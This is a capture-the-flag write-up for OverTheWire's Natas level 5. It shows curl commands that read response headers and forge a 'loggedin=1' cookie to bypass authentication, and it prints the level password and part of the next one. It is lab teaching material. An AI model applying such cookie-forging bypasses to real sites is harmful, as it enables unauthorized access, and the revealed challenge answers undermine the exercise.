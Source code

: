 # Natas Level 4 -> Level 5

## Description

Username: natas5  

URL:      http://natas5.natas.labs.overthewire.org

---

## Solution

Visit the url `http://natas5.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas5` and the password obtained from the previous challenge.

Once logged in we get an `Access disallowed` message.

![Natas 5 home page](img/natas5_home.png)

Checking the source code does not give any new information.

In the previous challenge we looked at the `HTTP headers` so let's check them again.

Using `curl --head --user <USERNAME>:<PASSWORD> --url <URL>` syntax we can view the headers.

```
$ curl --head --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --url http://nata
s5.natas.labs.overthewire.org

HTTP/1.1 200 OK
Date: Wed, 20 Apr 2022 23:55:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: loggedin=0
Content-Type: text/html; charset=UTF-8

```

We can see in the headers that there is a cookie being set.  
`Set-Cookie: loggedin=0`

Let's set `loggedin` to 1 and see what differences occur.
We can passed cookie data using the `--cookie` option in curl.

```
curl --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie "loggedin=1" --url http:/
/natas5.natas.labs.overthewire.org/
```

The response we get tells us Access granted and the password.
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is aGoY4q**************************</div>
</body>
</html>
```

The password for the next challenge is `aGoY4q**************************`.